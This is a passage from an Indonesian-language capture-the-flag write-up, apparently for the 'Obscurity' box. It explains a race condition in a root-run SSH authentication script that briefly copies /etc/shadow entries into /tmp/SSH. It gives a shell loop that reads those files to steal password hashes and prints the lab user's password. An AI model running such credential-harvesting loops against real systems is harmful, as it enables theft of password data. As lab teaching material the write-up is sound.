 ```
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)
 
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
 
        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

Pembuat box merancang sebuah script untuk authentication SSH dan shell dengan gayanya sendiri

Script ini yang memiliki permission sebagai root, akan membuka /etc/shadow dan menuliskan user beserta passwordnya di /tmp/SSH/ untuk sementara waktu untuk proses autentikasi dan setelah selesai akan di remove. Disini letak vulernabilitynya, kata kuncinya adalah Race Condition attack

Source yang bagus untuk dibaca : https://www.veracode.com/security/race-condition

Sekarang kita akan mencoba melakukan leak /tmp/SSH/ yang basically /etc/shadow, karena robert tidak memiliki akses /etc/shadow sebagai root

Kita akan membuka SSH session lagi dengan user yang sama, Robert, masuk directory di /tmp/SSH sebelum script BetterSSH.py dijalankan dan melakukan forever looping untuk melakukan cat SSH/* untuk mencoba mendapatkan user dan passwordnya

Forever looping cat di terminal 2

```
while true; do cat /tmp/SSH/* 2>/dev/null; done;
```

Login sebagai robert di terminal 1

```
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
```

![Image](img/12.jpg)
